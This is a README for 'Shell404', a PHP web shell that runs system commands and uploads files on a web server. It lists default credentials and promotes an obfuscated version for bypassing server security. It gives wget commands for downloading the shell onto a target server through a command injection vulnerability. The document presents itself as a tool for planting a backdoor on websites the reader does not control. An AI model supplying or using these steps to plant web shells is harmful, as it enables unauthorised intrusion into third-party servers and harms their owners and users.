 # Shell404 🛠️

**Shell404** is a simple yet powerful PHP web shell created by [Anon-404](https://github.com/Anon-404). It provides a minimalistic interface for executing system commands and managing file uploads securely, all through your web browser.

## ✨ Features

- ⚙️ **Command Execution**: Run system commands directly from the web interface and view the output.
- 📁 **File Upload**: Safely upload files to the server with a straightforward interface.
- 🔐 **Login Authentication**: Restrict access to authorized users with a username and password system.
- 🛡️ **Obfuscated Version**: Use the obfuscated shell (`obf-Shell404.php`) for bypassing server security restrictions.

## 🔑 Default Login Credentials 

```php
$user = "Shell404";
$pass = "Shell404";
```

## 🚀 Installation

1. 📥 Clone the repository or download either the original `shell404.php` or the obfuscated `obf-Shell404.php` file.
2. 🚀 Upload the chosen file to your server's web directory.
3. 🌐 Access the web shell via your browser by navigating to the file.

## 🛡️ Usage

1. 🌐 Open the web shell in your browser.
2. 🔑 Login using the default credentials:
   - **Username**: Shell404
   - **Password**: Shell404
3. After logging in, you can:
   - ⚙️ **Command Input**: Enter system commands and view the results in real-time.
   - 📁 **File Upload**: Use the file upload feature to transfer files to the server.

## 💻 Direct Download via Command Injection

If the target website has a **command injection vulnerability**, you can easily download the Shell404 web shell using the following command:

```bash
wget https://raw.githubusercontent.com/Anon-404/Shell404/main/Shell404.php
```
### If have server security restriction

```bash
wget https://raw.githubusercontent.com/Anon-404/Shell404/main/obf-Shell404.php
```

This will fetch the obfuscated `obf-Shell404.php` file from the GitHub repository to the target server, allowing you to access the shell through the browser.

## 🛠️ Customization

You can personalize the default username and password by editing the variables at the top of the `shell404.php` or `obf-Shell404.php` file:

```php
$user = "Shell404";
$pass = "Shell404";
```
